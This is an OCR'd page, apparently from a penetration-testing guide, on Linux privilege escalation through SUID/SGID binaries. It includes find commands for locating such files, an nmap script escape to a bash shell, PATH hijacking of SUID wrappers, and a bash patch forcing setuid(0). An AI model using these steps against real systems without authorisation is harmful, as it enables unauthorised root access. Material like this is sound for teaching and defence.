 find / -type f -perm /2000 -ls 2>/dev/null # Find SGID only files

find / -type f -perm /6000 -ls 2>/dev/null # Find SUID and/or SGID files

An attacker can again use GTFOBins to look for executables that could be abused if sgid or suid is
set. https://gtfobins.github.io/

For example, if the /usr/bin/find executable is suid, it could be used to execute arbitrary commands
via:

find. -exec <command> \;

If a non-standard suid binary is found, an attacker may try to reverse engineer the suid in order to
discover its purpose. For example, say the administrator wants to allow users to execute a single
python script with root permissions. They could write an suid wrapper binary that executes the


script. But if the binary doesn’t use the full path for the script, an attacker could modify the PATH
variable and execute an arbitrary python script.

If nmap is set SUID root, then it may be possible to become root using the following:

```
echo 'os.execute ("/bin/bash")' > /tmp/escape.nse
chmod +x /tmp/escape.nse
nmap --script=/tmp/escape.nse
```
With recent versions of bash amd nmap (along with other shells and commands), this will probably
fail. Bash, and other commands that have the potential of abuse if configured SUID/SGID have
implemented checks and balances to ensure that even if executed in an attempt to escalate
privileges, then do not run with escalated privileges.

Several work arounds are possible:

- Try different shells in the argument to os.execute()
- Try different commands such as editors to access protected files such as shadow or to escape
- Use a patched version of bash to ensure that it sets the uid to 0 (root)

Patch for bash-5.0 (should work on other versions):

```
diff -Naur bash-5.0.old/shell.c bash-5.0.new/shell.c
--- bash-5.0.old/shell.c 2019-05-14 14:31:12.329589945 -
+++ bash-5.0.new/shell.c 2019-05-14 14:32:36.314589624 -
@@ -1293,7 +1293,7 @@
{
int e;
```
- if (setuid (current_user.uid) < 0)
+ if (setuid (0) < 0)
{
e = errno;
sys_error (_("cannot set uid to %d: effective uid %d"), current_user.uid,
current_user.euid);
